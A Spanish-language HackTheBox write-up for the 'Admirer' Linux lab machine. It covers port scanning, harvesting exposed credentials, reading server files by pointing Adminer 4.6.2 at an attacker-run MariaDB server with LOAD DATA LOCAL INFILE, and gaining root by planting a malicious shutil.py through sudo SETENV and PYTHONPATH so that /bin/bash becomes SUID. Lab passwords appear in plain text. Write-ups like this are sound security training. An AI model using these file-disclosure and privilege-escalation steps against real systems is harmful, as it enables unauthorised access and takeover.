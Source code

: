```yaml
---
title: HackTheBox - Admirer
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'Adminer 4.6.2', 'Python Path Hijacking']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Admirer/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Admirer Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackTheBox.

Técnicas usadas: **Adminer 4.6.2, Python Path Hijacking**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Admirer`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Admirer/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Admirer/02-versions.png)

c. Visitamos el sitio web

![](/assets/images/HTB/Easy/Admirer/03-web.png)

* Al no encontrar algo interesante, fuzzeamos en busca de archivos o directorios con **nmap**

  ```bash
  root@kali> nmap -p80 --script http-enum 10.10.10.187

  PORT   STATE SERVICE
  80/tcp open  http
  | http-enum: 
  |_  /robots.txt: Robots file
  ```

* En el archivo **`robots.txt`** vemos el siguiente mensaje

  ```bash
  # This folder contains personal contacts and creds, so no one -not even robots- should see it - waldo
  Disallow: /admin-dir
  ```

* Como nos dicen que existe un archivo con credenciales, buscamos por nombres de archivos como **`creds.txt` o `credentials.txt`**

  * **URL:** http://<IP>/admin-dir/credentials.txt

    ```bash
    [Internal mail account]
    w.cooper@admirer.htb
    fgJr6q#S\W:$P

    [FTP account]
    ftpuser
    %n?4Wz}R$tTF7

    [Wordpress account]
    admin
    w0rdpr3ss01!
    ```

d. Nos autenticamos con las credenciales antes encontradas en el servicio FTP

```bash
root@kali> ftp 10.10.10.187
Name (10.10.10.187:kali): ftpuser
Password: %n?4Wz}R$tTF7
230 Login successful.
ftp> dir
-rw-r--r--    1 0        0            3405 Dec 02  2019 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03  2019 html.tar.gz
```

* Descargamos los anteriores archivos con **`get <Archivo>`**

* Ahora los analizamos y encontramos muchas credenciales, un usuario válido **waldo**, una estructura en SQL y un directorio **utility-scripts**

  * **index.php**

    ```php
    $servername = "localhost";
    $username = "waldo";
    $password = "]F7jLHw:*G>UPrTo}~A"d6b";
    $dbname = "admirerdb";
    ```

  * **dump.sql**

    ```sql
    -- Table structure for table `items`
    ```

  * **utility-scripts**

    ```bash
    [ 4096]  utility-scripts
    ├── [ 1795]  utility-scripts/admin_tasks.php
    ├── [  401]  utility-scripts/db_admin.php
    ├── [   20]  utility-scripts/info.php
    └── [   53]  utility-scripts/phptest.php
    ```

e. Fuzeamos por archivos **.php** en este directorio

  ```bash
  root@kali> wfuzz -c -t 100 --hc=404  -w /usr/share/seclists/Discovery/Web-Content/big.txt  http://admirer.htb/utility-scripts/FUZZ.php

  000001874:   200        51 L     235 W      4157 Ch     "adminer"
  ```

* Visitamos este servicio, pero, ninguna de las credenciales antes encontradas funcionará por lo que buscamos por vulnerabilidades asociadas a este servicio -  [Artículo](https://sansec.io/research/adminer-4.6.2-file-disclosure-vulnerability)

## Configurando el entorno 🎋

* Modificamos el fichero **/etc/mysql/mariadb.conf.d/50-server.cnf**

  ```bash
  bind-address            = 0.0.0.0
  ```
  > Hacemos que nuestro servidor sea accesible desde cualquier dirección IP.

* Ahora, crearemos un nuevo usuario **admirer:admirer** que tenga total acceso a la base de datos **admirerdb** que tendrá una tabla **items**

  ```bash
  root@kali> mysql

  MariaDB [(none)]> CREATE USER admirer@<tun0 IP> IDENTIFIED BY 'admirer';
  MariaDB [(none)]> CREATE DATABASE admirerdb;
  MariaDB [(none)]> use admirerdb;
  MariaDB [(admirerdb)]> CREATE TABLE items(id VARCHAR(10), name VARCHAR(255), PRIMARY KEY(id));

  # Damos total acceso al uusario **`admirer`** sobre la base de datos **`admirerdb`** y le decimos que se
  # podrá conectar desde cualquier dirección IP.
  MariaDB [(admirerdb)]> GRANT ALL PRIVILEGES ON admirerdb.* TO admirer@'%' WITH GRANT OPTION;

  # Recargar los privilegios de MySQL 
  MariaDB [(admirerdb)]> FLUSH PRIVILEGES;
  ```

g. Ahora, desde **adminer.php** nos conectamos a nuestro servidor

![](/assets/images/HTB/Easy/Admirer/04-admirer.png)

* Los datos que captureremos son las credenciales del usuario **waldo** que están alojadas en el fichero index.php (Esto se vió al descomprimir el fichero **html.tar.gz**), podremos leer este archivo con ayuda de **Wireshark**

* Primero, nos pondremos en escucha por la interfaz de red **tun0** y en Adminer ejecutaremos la siguiente sentencia SQL

  ```sql
  LOAD DATA LOCAL INFILE '/var/www/html/index.php'
  INTO TABLE test FIELDS TERMINATED BY '\n'
  ```

  ![](/assets/images/HTB/Easy/Admirer/05-sql.png)

* Ahora en Wireshark veremos los datos que hemos recibido

  ![](/assets/images/HTB/Easy/Admirer/06-wireshark.png)

  ![](/assets/images/HTB/Easy/Admirer/07-creds.png)


h. Con estas credenciales nos podemos conectar al servicio **SSH**

```bash
root@kali> ssh waldo@<Admirer IP>
waldo@admirer:~$
```

### Escalada de Privilegios 💹

a. Listamos nuestro privilegios a nivel de sudoers

```bash
waldo@admirer:~$ sudo -l
[sudo] password for waldo: 
User waldo may run the following commands on admirer:
  (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

* Al inspeccionar el script vemos que si seleccionar la opción **`6) Backup web data`** se usa un script **`backup.py`**
  ```bash
  backup_web(){
    if [ "$EUID" -eq 0 ]                                                                                   
    then                
      echo "Running backup script in the background, it might take a while..."
      /opt/scripts/backup.py &                                                                                  
    else                                                                                                    
      echo "Insufficient privileges to perform the selected operation."
    fi
  } 
  ```

* Inspeccionamos el script **backup.py**

  ```bash
  #!/usr/bin/python3

  from shutil import make_archive
  src = '/var/www/html/'
  # old ftp directory, not used anymore
  #dst = '/srv/ftp/html'
  dst = '/var/backups/html'
  make_archive(dst, 'gztar', src)
  ```

* Si nos fijamos bien el permiso sudoers, vemos **SETENV** esta directiva nos permite indicar una variable de entorno para cargar algo [Hacktricks - SETENV](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)

* En este caso podemos cargar la librería **shutil** desde donde le indiquemos

b. Creamos un fichero 'shutil.py' en **/dev/shm** con el siguiente código

```python
import os
os.system("chmod +s /bin/bash")
```

* Ahora ejecutamos **/opt/scripts/admin_tasks.sh** como root, escogeremos la opción **6) Backup web data** y le indicamos la dirección de nuestro shutil.py

  ```bash
  waldo@admirer:/dev/shm$ sudo PYTHONPATH=/dev/shm /opt/scripts/admin_tasks.sh
  <SNIP>
  Choose an option: 6
  waldo@admirer:/dev/shm$ ls -la /bin/bash
  -rwsr-sr-x 1 root root 1099016 May 15  2017 /bin/bash
  waldo@admirer:/dev/shm$ bash -p
  bash-4.4# whoami
  root
  ```


